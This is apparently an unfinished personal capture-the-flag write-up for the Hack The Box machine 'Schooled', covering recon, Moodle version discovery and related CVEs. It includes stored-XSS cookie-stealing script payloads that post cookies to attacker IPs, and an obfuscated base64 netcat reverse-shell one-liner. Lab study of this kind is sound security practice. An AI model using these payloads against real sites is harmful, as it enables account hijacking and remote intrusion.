

# Schooled Helped-Through

Name: Schooled
Date:  28/4/2024
Difficulty:  Medium
Goals:  
- Test whether Guided track is good for my overall learning
- Finish in a sitting
Learnt:
Beyond Root:

- [[Schooled-Notes.md]]
- [[Schooled-CMD-by-CMDs.md]]


## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.


**Task 1: How many open TCP ports are listening on Schooled?**
```python
# 22,80,33060
3
```


- CVE-2021-21702 if SOAP and xml can be passed to client
	- https://www.rapid7.com/db/vulnerabilities/php-cve-2021-21702/
	- https://www.tenable.com/plugins/was/112701


Proof that we cannot even contact these teachers at schooled...the parents' evenings must be brutal or the telephone on constantly engaged.

Queue telephone on hold music.


The testimonals boarder on the realm of pure madness:

Slaneeshy followers been drinking that Warp-based corrupted radiator water


No `root : schooled` on port 33060 for mysql

**Task 2 What is the full domain that hosts an instance of commercially available education software?**
```python
# moodle is not in the first 150k of jHaddix!
moodle.schooled.htb
```


Weird README from 2007..

Site is a bit slow now so just another reminder that even with rate limiting to 100 with feroxbuster something gobuster is just better


It is very fortunate that I have pick a box at random to finish that includes more XSS or its more statistically likely that I have generally avoided them so eventually I would run into more of them.

XSS on moodle is - https://nvd.nist.gov/vuln/detail/cve-2021-32478

Triangulating the version 


**Task 3 What version of Moodle is running on `moodle.schooled.htb`?**
```
3.9
```

So how many Xovid19-student-skidded this...?


**Task 4 What is the 2020 CVE ID for a stored cross-site scripting (XSS) vulnerability in the Moodle profile?**
```
CVE-2020-25627
```

Instructions from https://github.com/HoangKien1020/CVE-2020-25627
```
Step 1: Log in with an authenticated user (Can register or through creating a new user without assigning roles )

Step 2: Quick access to Edit profile

domain/moodle/user/edit.php?id=<your user_id>&returnto=profile

In MoodleNet profile, add the script as:

<script>alert("HK")</script>

And save:

Step 3: Anytime, the other user goes to view your profile, the stored XSS will trigger.

Steal cookie via script:

<script>var i=new Image;i.src="http://192.168.0.238/xss.php?"+document.cookie;</script>

Change your domain and upload xss.php to your host:

https://github.com/HoangKien1020/pentest/tree/master/XSS
```

Trying to think of school-based memes so tiny rick will do
```
tinyrick : Tinyrick123!
```


There is a student.schooled.htb domain


Why do have to enter your email twice, but your password once. Absolute madness.
`tinyrick@student.schooled.htb`

In MoodleNet profile, add the script as:
```html


<script></script>

<!-- https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies -->
<script>fetch('http://10.10.14.29', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>

<script>fetch('http://10.10.14.29');</script>

<script>fetch('http://10.10.14.29')</script>

<script>new Image().src="http://$attacker-ip:port/cookiejar.jpg?output="+document.cookie;</script>
```


I authorize myself the right to refer you to the improvised song about cookies - remember to pay you BBC TV lincence for this please: [Reggie on Mock the Week](https://www.youtube.com/watch?v=sGjgPRVMca8)

Unfortunately this is mine. Lmao. Unforntunately I now really what to eat cookies..

And it is definately not my cookie


I did try to change tiny rick's grade, but it kept refreshing. Never cheating and feeling crap about when I have used a cheat in a single player games even universe is saying no. 


Which I just skimmed till:


https://github.com/lanzt/CVE-2020-14321 - but I do not know what the zip as base64 actually is... references https://github.com/HoangKien1020/CVE-2020-14321 similarly:


Turn pentest monkey into hex


But that is excessive and I am too lazy to mod the script to not use the cmd.php
`echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTQuMjkgODg4OCA+L3RtcC9mCg== | base64 | bash`


**Task 6: What is the 2020 CVE ID for a privilege escalation vulnerability that allows a user with the teacher role to get the manager role in Moodle 3.9?**
```

```


## Exploit

## Foothold

## Privilege Escalation

## Post-Root-Reflection  
## Beyond Root

**Task **
```

```
